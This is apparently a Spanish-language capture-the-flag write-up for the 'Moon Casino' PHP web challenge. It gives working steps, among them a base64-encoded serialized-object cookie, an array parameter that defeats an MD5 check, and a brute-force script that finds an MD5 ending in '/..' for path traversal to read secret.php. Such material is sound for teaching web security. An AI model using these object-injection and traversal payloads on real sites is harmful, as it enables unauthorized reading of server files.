



## Moon Casino - Web - 53 Points

```
Our casino is under construction. Warm up yourself with this easy challenge!

http://casino.nn9ed.ka0labs.org/
```




```
<html>
<head>
<title>Moon Casino (under construction)</title>
<style>
    body{
        background: url(moon.jpg) no-repeat center center fixed;
    }
</style>
</head>
<body>
<!-- index.php?source=go --!>
</body>
</html>
```



[código fuente](mooncasino-source.php)


### Acertar con rand()

```
rand() === $_POST['guess']
```
Al utilizar una comparación estricta con `===` es imposible cumplir esta igualdad, al ser `rand()` un entero y `$_POST['guess']` un string (o un array).


### Serializando

Podemos crear un objeto en el serializado para invocar a la clase `casino_debug`, además aprovechamos para modificar la variable `$var` por una variable de sesión que podemos llegar a controlar.

`O:12:"casino_debug":1:{s:3:"var";s:3:"bet";}`

Lo debemos enviar en base64 en la cookie `debug=TzoxMjoiY2FzaW5vX2RlYnVnIjoxOntzOjM6InZhciI7czozOiJiZXQiO30=`


### Lectura en '/'
El siguiente paso es conseguir escribir la ruta del fichero con la flag en la variable de sesión `bet` 

```
POST /index.php?action=bet
bet=initrd.img&guess[]=patatas
```

Anulando el MD5 con un *Array*, conseguimos leer directamente ficheros en el directorio raiz. Sin embargo no hay ficheros de utilidad para conseguir la flag.


### Lectura del archivo secret.php

La función `md5($_POST['guess'], TRUE)` devuelve 16 caracteres en formato binario, para conseguir leer en el directorio de la aplicación podemos buscar un valor que termine en `/..`,
esto haría que la ruta tuviera esta forma `/var/www/html/XXXXXXXXXXXXX/../secret.php`

Con el siguiente script hacemos fuerza bruta en local
```php
<?php
for($i = 0 ; TRUE ; $i++) {
  $str = md5($i, TRUE);
  if(strpos($str, '/..')==13) {
    echo "$i - $str\n";
  }
}
```
Encontramos un string que genera el resultado buscado
```
32138105 - � ��"�{���/..
```

Primero guardamos los valores en la sesión.
```bet=secret.php&guess=32138105```

Finalmente enviamos la petición con la cookie serializada y somos capaces de leer `secret.php` con la flag oculta.


